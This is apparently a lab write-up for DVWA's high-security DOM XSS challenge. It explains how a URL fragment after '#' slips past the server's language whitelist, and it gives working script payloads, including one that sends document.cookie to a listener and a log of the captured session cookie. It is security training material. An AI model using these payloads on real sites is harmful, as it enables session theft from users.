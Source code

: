 #+TITLE: DVWA - XSS DOM High
#+AUTHOR: Leonardo Tamiano

* Description
  Same setup as before, but now the PHP code that is used to filter
  the input hard-codes all possible valid inputs in a ~switch~
  statement.

  #+begin_src php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?>
  #+end_src
  
* Solution
  The trick here is to not pass through the server with the full input
  malicious. We can do this with the pound character ~#~. In particular,
  everything after ~#~ does not get sent to the server and is only
  processed by the browser. This opens up the possibility for the
  following payload

  #+begin_example
http://evil/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert(1);%20%3C/script%3E
  #+end_example

  With this payload

  1. The server only sees the first part, the part before the ~#~
     character, which is ~English~. So this passes the checks

  2. The browser however sees the entire param value, and so it uses
     the entire param value to construct the DOM, which means that the
     script tag slips through the DOM.

  ------------

  To leak the user cookie we can use the following payload

  #+begin_example
http://evil/vulnerabilities/xss_d/?default=English#<script>var xhr = new XMLHttpRequest(); xhr.open('GET', `http://localhost:1337/${document.cookie}`, false); xhr.send(null);</script>
  #+end_example
  
  and you get the cookie

  #+begin_example
[leo@archlinux xss_dom]$ python3 cors-server.py 
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [11/Nov/2023 19:03:55] code 404, message File not found
127.0.0.1 - - [11/Nov/2023 19:03:55] "GET /PHPSESSID=raa5vui83s45lmdpd7bfo3suk3;%20security=high HTTP/1.1" 404 -
  #+end_example
  

